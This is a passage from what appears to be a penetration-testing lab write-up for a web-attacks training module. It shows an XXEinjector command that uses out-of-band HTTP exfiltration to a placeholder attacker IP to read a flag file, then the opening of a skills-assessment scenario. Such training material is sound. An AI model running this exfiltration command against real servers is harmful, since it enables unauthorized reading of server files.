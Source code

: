 ##### Using <a href="https://github.com/enjoiz/XXEinjector">XXEInjector</a>:
1. Save request from proxy to a file `xxe.req`
2. Execute below command to run XXEInjector:
```
ruby XXEinjector.rb --host={YOUR_IP_ADDRESS} --httpport=8000 --file=/tmp/xxe.req --path=/{FLAG_FILE.php} --oob=http --phpfilter
```

<hr/>

## Skills Assessment
><b>Overview:</b>
You are performing a web application penetration test for a software development company, and they task you with testing the latest build of their social networking web application. Try to utilize the various techniques you learned in this module to identify and exploit multiple vulnerabilities found in the web application.<br/><br/>The login details are provided in the question below.<br/><br/>

### Ensure that Caido’s proxy is intercepting all requests.

### Log In to the Application

Log in using the provided credentials.

![Login](/images/htb/web-attacks/sa-login-page.png)
